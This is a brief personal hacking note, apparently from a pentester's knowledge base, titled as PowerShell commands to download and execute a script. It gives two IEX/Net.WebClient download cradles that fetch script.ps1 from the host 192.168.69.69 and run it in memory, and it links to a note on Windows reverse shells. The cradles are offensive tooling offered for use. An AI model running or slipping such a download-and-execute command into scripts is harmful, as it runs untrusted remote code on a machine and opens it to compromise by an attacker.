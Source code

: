 # powershell commands download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')"
IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')
```

# References
- [20221003151101](/zet/20221003151101/README.md) powershell commands
- ~/kb/hacking/windows/windows-reverse-shell.md

Tags:
    #assorted
